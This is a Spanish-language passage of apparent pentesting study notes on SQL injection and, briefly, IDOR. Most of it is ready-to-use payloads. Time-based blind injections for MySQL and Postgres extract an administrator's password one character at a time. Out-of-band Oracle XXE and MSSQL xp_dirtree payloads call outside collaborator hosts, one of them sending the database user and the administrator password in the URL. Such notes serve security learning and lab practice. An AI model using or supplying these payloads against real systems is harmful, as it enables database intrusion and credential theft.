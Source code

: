 ```sql
      ' AND (SELECT SLEEP(1) FROM DUAL WHERE DATABASE() LIKE '$_$$_$$_$')#
```

 - Postgres:

1- Validaciones basicas: La posición dependera mucho de donde va la inyección, no se puede ejecutar sleep directamente sin validaciones, el más basico por ejemplo puede ser:
```sql
      ' AND pg_sleep(5) IS NULL --
```

2- Condicionales: Ejecución de espera
  -> payload 1: numeros incrementales
  -> payload 2: caracteres y numeros
```sql
      a' OR (SELECT CASE WHEN (SUBSTRING(password,$payload1$,1)='$payload2$') THEN pg_sleep(5) ELSE 'a' END FROM users WHERE username='administrator') IS NULL--
```

#### Out of Band:
- HTTP/DNS responses:
Sí el request de sql es procesado en un segundo hilo, la respuesta no va a hacer una espera visible, por eso aun asi deberiamos poder enviar información hacia otros lados.

1- Posición: En este caso se debe cerrar el query, lo cual se puede hacer en varias opciones:
```sql
  ; (cerrar la consulta anterior)
  ' AND/OR (select ...) (concatenar un subquery)
  UNION (Unir un segundo select)
```
En cualquier caso debe seguir las reglas generales, por ejemplo una UNION debe llevar un ,NULL extra aparte del comando de dns en caso de que el query del codigo solo consulte una columna.

2- Seleccionar el payload en base a la versión, en este caso seria uno de ORACLE usando un UNION:
```sql
  x' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://(subdomain).oastify.com/"> %remote;]>'),'/l') FROM dual--
```

2- Por generar segundo:
```sql
    '; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
```

3- Exfiltrar, en este caso podemos concatenar variables o querys: 
```sql
    ' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://xrsy1oc2weq1cilvi2czyiwyipogc7avz.oastify.com/'||USER||'"> %remote;]>'),'/l') FROM dual--
    ' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://xrsy1oc2weq1cilvi2czyiwyipogc7avz.oastify.com/'||(SELECT password from users where username='administrator')||'"> %remote;]>'),'/l') FROM dual--
```

## IDOR:
Mal asignación de permisos para ver recursos que solo deberian pertenecerle a un usuario, ejemplo: /read.php?file=reporte_enero.pdf sí esté URL es accesible para todos los usuarios pero solo deberia poder verlo quien lo subio.
